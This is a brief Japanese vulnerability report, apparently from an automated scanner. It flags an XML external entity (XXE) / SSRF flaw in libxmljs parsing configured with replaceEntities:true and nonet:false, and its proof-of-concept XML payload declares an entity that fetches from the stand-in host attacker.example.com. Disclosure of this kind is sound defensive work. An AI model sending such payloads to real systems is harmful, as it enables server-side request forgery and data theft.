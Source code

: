 # Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `SSRF`
- `AFO`
- `XSS`

## PAR Policy Analysis

## 詳細解析

このコードでは、libxmljsのXMLパーサにおいて「replaceEntities: true」「nonet: false」が設定されており、外部エンティティ参照が無制限に許可されています。その結果、攻撃者は外部リソース（例えばhttp://attacker.com/secret.txtなど）をエンティティとして宣言し、サーバーにリクエストさせることでSSRFを引き起こせます。DNSリバインディングやIPエンコードを用いたバイパスも可能です。

## PoC（概念実証コード）

```text
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.example.com/secret">
]>
<data>
  <info>&xxe;</info>
</data>
```

## 解析ノート

libxmljs.parseXmlでnonet:falseによりネットワークアクセスが許可され、replaceEntities:trueで外部エンティティ展開が有効化。SSRF発生可能。

